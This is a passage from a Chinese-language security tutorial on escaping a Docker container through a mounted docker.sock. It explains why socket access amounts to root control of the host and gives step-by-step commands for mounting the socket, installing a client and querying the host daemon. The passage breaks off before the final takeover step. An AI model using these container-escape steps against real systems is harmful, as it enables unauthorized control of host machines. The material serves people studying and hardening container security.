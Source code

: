 2、docker.sock 挂载到容器内部
---------------------

Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon 扮演，二者之间通信方式有以下 3 种：

```
1、unix:///var/run/docker.sock
2、tcp://host:port
3、fd://socketfd
```

其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载 / var/run/docker.sock 文件。  
本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。  
因此，当容器访问 docker socket 时，我们可通过与 docker daemon 的通信对其进行恶意操纵完成逃逸。若容器 A 可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。  
利用过程：  
1、首先运行一个挂载 / var/run / 的容器

```
docker run -it -v /var/run/:/host/var/run/ adafef2e596e /bin/bash
```

![](images/format,png-163410875271328)

2、寻找下挂载的 sock 文件

```
find / -name docker.sock
```

![](images/format,png.jpeg)

3、在容器内安装 Docker 作为 client（可能需要换国内源）

```
apt-get install docker.io
```

4、查看宿主机 docker 信息

```
docker -H unix:///host/var/run/docker.sock info
```
